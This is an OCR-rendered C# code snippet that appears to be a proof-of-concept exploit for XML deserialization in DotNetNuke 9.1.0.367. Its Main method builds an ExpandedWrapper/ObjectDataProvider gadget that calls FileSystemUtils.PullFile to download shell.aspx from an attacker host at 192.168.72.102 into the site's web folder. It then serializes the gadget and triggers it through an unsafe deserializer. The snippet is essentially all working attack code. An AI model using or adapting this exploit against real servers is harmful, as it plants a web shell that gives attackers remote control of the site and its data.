 ```js
            File.WriteAllText(fileFolder + "obj.xml", xmlDocument.OuterXml);  
        }  
  
        public static void DeSerialize(string xmlSource, string rootname)  
        {  
            // Hashtable hashtable = new Hashtable();  
            if (!string.IsNullOrEmpty(xmlSource))  
            {  
                try  
                {  
                    XmlDocument xmlDocument = new XmlDocument();  
                    xmlDocument.LoadXml(xmlSource);  
                    foreach (object obj in xmlDocument.SelectNodes(rootname + "/item"))  
  
                    {  
                        XmlElement xmlElement = (XmlElement)obj;  
                        string attribute = xmlElement.GetAttribute("key");  
                        string attribute2 = xmlElement.GetAttribute("type");  
                        XmlSerializer xmlSerializer = new XmlSerializer(Type.GetType(attribute2));  
                        XmlTextReader xmlReader = new XmlTextReader(new StringReader(xmlElement.InnerXml));  
                        // hashtable.Add(attribute, xmlSerializer.Deserialize(xmlReader));  
                        // custom  
                        Object objResult = xmlSerializer.Deserialize(xmlReader);  
                    }  
                }  
                catch (Exception)  
                {  
                }  
            }  
            // return hashtable;  
        }  
        static void Main(string[] args)  
        {  
            ExpandedWrapper<FileSystemUtils, ObjectDataProvider> expandedWrapper = new ExpandedWrapper<FileSystemUtils, ObjectDataProvider>();  
            expandedWrapper.ProjectedProperty0 = new ObjectDataProvider();  
            expandedWrapper.ProjectedProperty0.ObjectInstance = new FileSystemUtils();  
            expandedWrapper.ProjectedProperty0.MethodName = "PullFile";  
    expandedWrapper.ProjectedProperty0.MethodParameters.Add("https://192.168.72.102:8000/shell.aspx");  
            expandedWrapper.ProjectedProperty0.MethodParameters.Add("C:\\Web\\DNN_Platform_9.1.0.367_Install\\js\\shell.aspx");  
  
            Console.WriteLine("Done!!");  
            Serialize(expandedWrapper);  
  
            String xmlSource = File.ReadAllText(fileFolder + "obj.xml");  
            DeSerialize(xmlSource, "profile");  
  
        }  
    }  
}
```
